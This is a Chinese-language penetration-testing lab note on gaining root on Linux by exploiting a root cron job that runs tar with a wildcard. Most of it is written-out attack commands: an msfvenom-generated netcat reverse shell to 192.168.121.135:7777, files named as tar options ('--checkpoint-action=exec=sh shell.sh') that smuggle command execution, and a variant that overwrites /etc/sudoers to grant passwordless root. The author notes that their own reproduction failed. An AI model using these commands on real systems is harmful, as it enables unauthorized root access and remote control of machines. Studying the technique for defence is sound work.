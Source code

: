 lab setup

```
mkdir html
chmod 777 html
cd html
touch index.html
touch test
touch file.txt
```

随后在定时任务中写入

```
*/1 *  * * *   root tar -zcf /var/www/html.tgz /var/www/html/*
```

每分钟备份一次html目录下的文件

![labsetup](E:\笔记软件\笔记\渗透测试\技术原理与分析\提权\labsetup.png)

**方法1**

使用msf生成一句话反向shell

```
msfvenom -p cmd/unix/reverse_netcat lhost=192.168.121.135 lport=7777 R
=>
mkfifo /tmp/rtmmiv; nc 192.168.121.135 7777 0</tmp/rtmmiv | /bin/sh >/tmp/rtmmiv 2>&1; rm /tmp/rtmmiv
```

随后在受害者机器执行

```
echo "mkfifo /tmp/rtmmiv; nc 192.168.121.135 7777 0</tmp/rtmmiv | /bin/sh >/tmp/rtmmiv 2>&1; rm /tmp/rtmmiv" > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
tar cf archive.tar *
```

即可在攻击机上得到反向shell

![tarshell](E:\笔记软件\笔记\渗透测试\技术原理与分析\提权\tarshell.png)

上述命令，首先将反向shell代码写入名为shell.sh的文件，创建名为--checkpoint-action=exec=sh shell.sh和--checkpoint=1的文件，最后将这些文件进行压缩时，调用这两个选项执行shell脚本达到反向shell的目的，并且由于定身任务中tar操作由root用户进行，我们能得到rootshell，但是这里不知道为什么复现失败了，原文是在tmp目录下进行的，不清楚问题原因，但是大致有以下条件

```
1.打包目录html需要其他用户拥有执行+写权限。
2.目标Linux上有安装nc软件。
3.tar打包执行反弹命令时，”tar cf archive.tar *“命令需要进入/var/www/html目录执行
```

除了上述方法还可以使用sudoer

```shell
echo 'echo "ignite ALL=(root) NOPASSWD: ALL" > /etc/sudoers' > demo.sh
echo "" > "--checkpoint-action=exec=sh demo.sh"
echo "" > --checkpoint=1
tar cf archive.tar *
```
